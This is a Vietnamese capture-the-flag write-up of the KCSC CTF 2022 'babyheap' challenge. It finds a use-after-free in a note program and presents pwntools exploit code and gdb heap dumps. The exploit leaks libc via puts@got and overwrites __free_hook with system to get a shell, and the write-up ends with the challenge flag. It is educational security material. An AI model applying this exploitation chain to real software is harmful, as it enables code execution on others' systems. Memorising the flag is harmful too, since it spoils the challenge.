 # KCSC CTF 2022 - babyheap

Các bạn có thể tải chall ở repo của mình: [babyheap.zip](babyheap.zip)

# 1. Tìm lỗi

Đây là 1 bài heap nên khi bắt đầu, mình sẽ decompile chall với ghidra trước tiên. Ở đây ta có tổng cộng 4 hàm là `create_note`, `free_note`, `read_note` và `write_note`.

Ở hàm `create_note`, chương trình đầu tiên `malloc(0x10)` để lưu trữ size và địa chỉ của dữ liệu mà ta sẽ nhập vào. Sau đó chương trình yêu cầu ta nhập size cho dữ liệu mà ta sẽ nhập, và malloc với cái size đó. Cuối cùng lưu cái chunk chứa size và địa chỉ dữ liệu nhập vào biến global `page_table`. Chunk để lưu trữ size và địa chỉ có dạng (ví dụ size là 0x40):

```gdb
---------------------------------------------------------
| 0x405290:    0x0000000000000000    0x0000000000000021 |
| 0x4052a0:    0x0000000000000040    0x00000000004052c0 |    <-- Size / Address
---------------------------------------------------------
```

Khi tạo xong thì chuyển sang `write_note` để thực hiện việc ghi dữ liệu. Nó sẽ dùng size mà ta nhập vào để read vào địa chỉ. Ở ví dụ trên, size là `0x40` thì ta có thể nhập tối đa `0x40` byte vào địa chỉ `0x00000000004052c0`.

Đồng thời ở bên hàm `read_note`, nó cũng sẽ in ra số byte tương ứng với size. Ở ví dụ trên, size là `0x40` thì nó sẽ in ra đúng `0x40` byte có trong `0x00000000004052c0`.

Và cuối cùng là ở hàm `free_note`. Theo ví dụ trên thì chương trình sẽ free chunk chứa dữ liệu trước là `0x00000000004052c0`, sau đó sẽ free chunk chứa size và địa chỉ của dữ liệu được nhập. Tuy nhiên sau khi free, các pointer vẫn còn tồn tại trong biến toàn cục `page_table` --> **Use After Free**

# 2. Ý tưởng

Do bài không cung cấp libc nên ta sẽ đoán =)))

Thông thường, nếu với libc từ 2.32 trở lên thì khi free 1 chunk và chunk đó đi vào tcache thì với cái cơ chế xor trước khi ghi vào forward pointer của tcache sẽ làm cho forward pointer khác null. Và nếu ta dùng `read_note` mà khác null vậy ta đoán libc sẽ lớn hơn hoặc bằng 2.32.

Tuy nhiên khi free 1 chunk và ta `read_note` thì size bằng 0. Vậy ta xác định libc <= 2.31.

Tuy nhiên, mình nhận thấy ở challenge pwnMe, libc leak ra là libc 2.23 =))). Vì thế mình sẽ thử lấy libc bên đó và patch vào file bên này xem thử coi có được không. Patch xong thì ta tạo 2 chunk và free hết 2 chunk đó. Nhận thấy chunk 1 không chứa gì ở forward pointer nhưng chunk 2 thì có. Ta chạy thử trên server, cũng tạo 2 chunk và free 2 chunk đó, xong ta `read_note` của chunk free thứ 2 để in ra size thì ta thấy size đó tương đương với size khi ta chạy local.

Vậy ta xài libc đó luôn =)))

Và với libc 2.23 đó, ta thấy khi 2 chunk được khởi tạo và free thì chunk chứa size và địa chỉ chứa dữ liệu nhập sẽ như sau:

```gdb
------------------------ Note 0 -------------------------
| 0x405000:    0x0000000000000000    0x0000000000000021 |
| 0x405010:    0x0000000000000040    0x0000000000405030 |    <-- Size / Address
| 0x405020:    0x0000000000000000    0x0000000000000051 |
| 0x405030:    0x0000000a41414141    0x0000000000000000 |
| 0x405040:    0x0000000000000000    0x0000000000000000 |
| 0x405050:    0x0000000000000000    0x0000000000000000 |
| 0x405060:    0x0000000000000000    0x0000000000000000 |
------------------------ Note 1 -------------------------
| 0x405070:    0x0000000000000000    0x0000000000000021 |
| 0x405080:    0x0000000000000040    0x00000000004050a0 |    <-- Size / Address
| 0x405090:    0x0000000000000000    0x0000000000000051 |
| 0x4050a0:    0x0000000a42424242    0x0000000000000000 |
| 0x4050b0:    0x0000000000000000    0x0000000000000000 |
| 0x4050c0:    0x0000000000000000    0x0000000000000000 |
| 0x4050d0:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
                            ↓
                      free(Note 1)
                            ↓
                      free(Note 2)
                            ↓
------------------------ Note 0 -------------------------
| 0x405000:    0x0000000000000000    0x0000000000000021 |
| 0x405010:    0x0000000000000000    0x0000000000405030 |    <-- Size / Address
| 0x405020:    0x0000000000000000    0x0000000000000051 |
| 0x405030:    0x0000000000000000    0x0000000000000000 |
| 0x405040:    0x0000000000000000    0x0000000000000000 |
| 0x405050:    0x0000000000000000    0x0000000000000000 |
| 0x405060:    0x0000000000000000    0x0000000000000000 |
------------------------ Note 1 -------------------------
| 0x405070:    0x0000000000000000    0x0000000000000021 |
| 0x405080:    0x0000000000405000    0x00000000004050a0 |    <-- Size / Address
| 0x405090:    0x0000000000000000    0x0000000000000051 |
| 0x4050a0:    0x0000000000405020    0x0000000000000000 |
| 0x4050b0:    0x0000000000000000    0x0000000000000000 |
| 0x4050c0:    0x0000000000000000    0x0000000000000000 |
| 0x4050d0:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
```

Ta thấy rằng ở Note 1, phần size là địa chỉ base của heap. Với size đó, ta có thể làm cho Note 1 ghi đè lên thông tin của Note 2. Cụ thể là ghi đè size của Note 2 thành số nhỏ hơn chẳng hạn 8 và ghi đè địa chỉ chứa dữ liệu của note 2 thành bất kỳ @got rồi thực thi `read_note` để leak libc.

Khi có libc, ta vẫn dùng Note 1 để ghi đè size của Note 2 thành 8 và địa chỉ chứa dữ liệu thành địa chỉ `__free_hook` và dùng `write_note` để ghi vào `__free_hook` địa chỉ system.

Cuối cùng ta free 1 Note bất kỳ chứa chuỗi `"/bin/sh"` để lấy shell.

Tóm tắt:
- Stage 1: Leak libc
- Stage 2: Change `__free_hook` into `system` & get shell

# 3. Khai thác

Để thuận tiện cho việc khai thác, mình có viết các hàm sau đây:

```python
def create(idx, size, data):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
    p.sendlineafter(b'Size: ', f'{size}'.encode())
    p.sendafter(b'say?', data)

def free(idx):
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'index: ', f'{idx}'.encode())

def read(idx):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'index: ', f'{idx}'.encode())

def write(idx, data):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
    p.sendafter(b'say?', data)
```

Và chúng ta bắt đầu thôi nào!

### Stage 1: Leak libc

Trước tiên, ta tạo 3 chunk và free 3 chunk đó:

```python
for i in range(3):
    create(i, 0x40, f'{i}'.encode()*8)
for i in range(3):
    free(i)
```

Sau đó ta ghi đè size của Note 2 và địa chỉ chứa dữ liệu của Note 2 thành puts@got và dùng `read_note` để leak libc ra:

```python
write(1, b'A'*0x48 + p64(0x21) + p64(8) + p64(exe.got['puts']))
read(2)
p.recvline()
puts_addr = u64(p.recvline()[:-1])
log.info("Puts address: " + hex(puts_addr))
libc.address = puts_addr - libc.sym['puts']
log.info("Libc base: " + hex(libc.address))
```

Địa chỉ chunk khi debug giống như này:

```gdb
------------------------- Note 0 -------------------------
| 0x1771000:    0x0000000000000000    0x0000000000000021 |
| 0x1771010:    0x0000000000000000    0x0000000001771030 |    <-- Size / Address
| 0x1771020:    0x0000000000000000    0x0000000000000051 |
| 0x1771030:    0x0000000000000000    0x0000000000000000 |
| 0x1771040:    0x0000000000000000    0x0000000000000000 |
| 0x1771050:    0x0000000000000000    0x0000000000000000 |
| 0x1771060:    0x0000000000000000    0x0000000000000000 |
------------------------- Note 1 -------------------------
| 0x1771070:    0x0000000000000000    0x0000000000000021 |
| 0x1771080:    0x0000000001771000    0x00000000017710a0 |    <-- Size / Address
| 0x1771090:    0x0000000000000000    0x0000000000000051 |
| 0x17710a0:    0x4141414141414141    0x4141414141414141 |
| 0x17710b0:    0x4141414141414141    0x4141414141414141 |
| 0x17710c0:    0x4141414141414141    0x4141414141414141 |
| 0x17710d0:    0x4141414141414141    0x4141414141414141 |
------------------------- Note 2 -------------------------
| 0x17710e0:    0x4141414141414141    0x0000000000000021 |
| 0x17710f0:    0x0000000000000008    0x0000000000404028 |    <-- Size (8) / Address (puts@got)
| 0x1771100:    0x0000000000000000    0x0000000000000051 |
| 0x1771110:    0x0000000001771090    0x0000000000000000 |
| 0x1771120:    0x0000000000000000    0x0000000000000000 |
| 0x1771130:    0x0000000000000000    0x0000000000000000 |
| 0x1771140:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
```

Khi đã có địa chỉ libc trong tay, ta tiếp tục sang bước 2.

### Stage 2: Change `__free_hook` into `system` & get shell

Vẫn như trên, ta sẽ thay đổi địa chỉ chứa dữ liệu của Note 2 thành địa chỉ `__free_hook` và dùng `write_note` để ghi địa chỉ `system` vào `__free_hook`:

```python
write(1, b'A'*0x48 + p64(0x21) + p64(8) + p64(libc.sym['__free_hook']))
write(2, p64(libc.sym['system']))
```

Cuối cùng ta tạo 1 Note mới và nhập vào chuỗi `"/bin/sh"` và free Note đó đi, và ta lấy được shell:

```python
create(0, 0x40, b'/bin/sh\x00')
free(0)
```

Full code: [solve.py](solve.py)

# 4. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{6ed196ea0b4b367f4123ef78becfbf32}`